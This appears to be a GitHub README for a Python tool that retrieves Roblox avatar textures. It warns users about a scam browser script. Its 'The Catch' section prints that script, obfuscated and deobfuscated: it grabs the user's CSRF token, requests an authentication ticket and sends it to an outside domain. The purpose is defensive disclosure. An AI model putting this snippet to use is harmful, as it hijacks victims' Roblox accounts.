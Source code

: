 # Roblox Avatar Texture Scraper
Got a message or email from someone asking for your Roblox Avatar Texture, and asking you to run a JavaScript script in your browser? Instead of doing that (and giving away access to your account in the process*), use Roblox Avatar Texture Scraper (RATS) to get it instead.

## Example Usage

### Python:
**Make sure you have Python installed**
- Download the rats.py file
- Open Command Prompt (cmd.exe) or Power Shell in the folder where you installed the file
  - Alternatively use `cd C:\Downloads` where C:\Downloads is the folder with the file.
- Run the command `python rats.py`
- Enter your Player ID (ex: `2968170`)
- [Bam!](https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365)

### Standalone File:
- Download the rats.exe file
- Run / Double click the file
- Enter your Player ID (ex: `2968170`)
- [Bam!](https://t6.rbxcdn.com/c384b03bb7ec159dd6c3ceabaef98365)


## JavaScript Attack

The attack is simple, they ask you for your avatar texture and then give you an easy way of acquiring said texture. Simple, right? They're not asking for your password or anything, so where's the catch?

### Getting Your Avatar

The way they get your avatar is simple and legitimate enough, they simply query Roblox's own API using your public details.

```
async function payload2() {
    var hash = (await (await fetch((await (await fetch("https://www.roblox.com/avatar-thumbnail-3d/json?userId=" + $("meta[name='user-data']").data("userid") + "&_=" + Math.random())).json()).Url)).json()).textures[0]

    for (var i = 31, t = 0; t < 32; t++)
        i ^= hash[t].charCodeAt(0);

    location.href = "https://t" + (i % 8).toString() + ".rbxcdn.com/" + hash
}
```

A simplified breakdown:

- They fetch the JSON from `avatar-thumbnail-3d` [like this](https://www.roblox.com/avatar-thumbnail-3d/json?userId=2968170)
- They get the Textures hash from the URL in the JSON above
- They get which CDN the texture is hosted on from the hash
- They redirect your browser to the texture.

So.. where's the catch?


### *The Catch

```
(async function(){var _0x2416b1=(await(await fetch('/home',{'credentials':'include'}))['text']())['split']('setToken(\x27')[0x1]['split']('\x27)')[0x0];var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{'method':'POST','credentials':'include','headers':{'x-csrf-token':_0x2416b1}}))['headers']['get']('rbx-authentication-ticket');await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);await payload2()}());
```

This is at the bottom of the JavaScript file, all one line so it's harder to read.
Let's make it a bit more readable (using [MalwareDecoder](https://malwaredecoder.com/) because I am lazy.);

```
(async function(){
		var _0x2416b1=(await(await fetch('/home',{
		'credentials':'include'
	}
	))['text']())['split']('setToken('')[0x1]['split']('')')[0x0];
		var _0x12edd1=(await fetch('https://auth.roblox.com/v1/authentication-ticket',{
			'method':'POST','credentials':'include','headers':{
			'x-csrf-token':_0x2416b1
		}
	}
	))['headers']['get']('rbx-authentication-ticket');
	await fetch('https://profile-roblox.com/send22test.php'+'?t='+_0x12edd1);
	await payload2()
}
());
```

And now let's have the guy that doesn't exactly know what he's talking about break it down again!

- Get your Roblox X-CSRF token ([Cross-Site Request Forgery](https://blog.roblox.com/2020/10/protecting-users-cross-site-request-forgery/))
- Get your Roblox Authentication Ticket, using the X-CSRF token that they just acquired
- Send it to their own site
- Run the legitimate code, so you get your avatar texture.


## Why "RATS"?

My original python file I made for my own usage was called `avatr_texture.py`, and when I decided I wanted to put it out I decided to add Roblox to the name so people know what it's for, making it more likely to be seen by those who need it (Spoiler alert: Nobody will see it.)
And then I added 'Scraper' to the end because, well, I think "Rats" sounds better than "RAT" - and it also helps that the people who made the original JS script are rats.


## Me!

[I make YouTube videos.](https://youtube.com/saxaphonewalrus) They have nothing to do with this, I just thought I'd plug it in case anyone sees this.
